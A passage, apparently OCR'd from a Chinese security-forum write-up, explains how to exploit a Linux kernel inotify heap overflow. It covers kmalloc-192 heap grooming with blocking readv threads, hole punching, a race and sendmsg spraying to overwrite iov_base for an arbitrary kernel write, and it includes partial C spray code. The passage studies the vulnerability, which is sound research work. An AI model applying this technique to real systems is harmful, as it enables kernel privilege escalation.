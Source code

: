 当传入的参数 nr_segs 大于 8 时，并完成对 iov_base 的合法性检查，确定这是个用户态的地址，我们会通过 kmalloc 分配内存如下：

![](https://bbs.pediy.com/upload/attach/202002/620204_SM5R8ZZJTRJKDTG.jpg)  

此时如果不调用 write 函数，readv 函数将会睡眠等待至 write 函数发生。

如果此时通过 heap overflow 覆盖了 iov_base 为内核态地址，当 write 函数发生时，会向 kernel_addr 写入数据，而且此时并没有校验 iov_base 是否为用户态，前面已经校验过了。

![](https://bbs.pediy.com/upload/attach/202002/620204_3DRBJSS35WDRXVC.jpg)  

四、漏洞利用

1、堆风水

如何使 strcpy(event->name, file_name) 可以覆盖 iov_base，向其写入 kernel_addr。

首先我们看一下我们要布局的对象的大小。

iov = kmalloc(nr_segs*sizeof(struct iovec), GFP_KERNEL); //nr_seg 需要大于 8，我这里选择 10，iov 对象的大小是 160 个字节，从 kmalloc-192 中分配。如果要覆盖 iov，下面的 event，file_name 就得选比较大的文件名，所以这个漏洞，不能通过短文件名触发。  

event = kmalloc(alloc_len, GFP_KERNEL);  // 分配 sizeof(struct inotify_event_info)+strlen(file_name)+1 内存 ，44+144+1=189 字节，从 kmalloc-192 中分配。  

kfree_rcu(old_name, u.head) old_name 也是 144 个字节，从 kmalloc-192 分配，这里是释放。  

sendmsg 堆喷，172 个字节，从 kmalloc-192 分配。

为什么是 172 个字节？

sizeof(struct inotify_event_info) = 44 个字节，event 总的长度是 192 个字节，如果想覆盖 iov，那么 file_name 被堆喷重新占位后的大小应该是 192- 44 + 8(iov_addr 的字节数)=156，由于 file_name 的值大于 old_name 的值 16 个字节，所以 sendmsg 应该堆喷 156+16 个 = 172 字节。  

堆风水步骤：

1）首先起大量线程分配 iov 对象 (通过 readv 函数，会阻塞线程，所以需要大量线程)。

2）每隔一个对象释放 iov，形成空洞。

3）通过以下竞争，event 落在空洞上，并且旁边就是另一个 iov 对象：

![](https://bbs.pediy.com/upload/attach/201902/620204_MFHEAFVEQJJ4AGV.jpg)  

4）堆喷占位 old_name，strcpy 覆盖旁边 iov 对象 iov_addr

```
static void* readpipe(void* param)
{
    readv(*(int *)param, iovs, 10);
}
 
static void createthread(int * pipe_write, int thread_index) //通过创建大量的thread，分配iov对象，并且阻塞等待
{
    int * pipefd;
    pipefd = malloc(2 * sizeof(int));
    pipe(pipefd);
    *pipe_write = pipefd[1];
    int ret;
    if((ret = pthread_create(&rthread[thread_index], NULL, readpipe, &pipefd[0])))
                perror("read pthread_create()");
 
}
 
static void createpipes()
{
    for (int i = 0; i < THREAD_COUNT; i++)
    {
        createthread(&pipe_writes[i], i);
    }
```
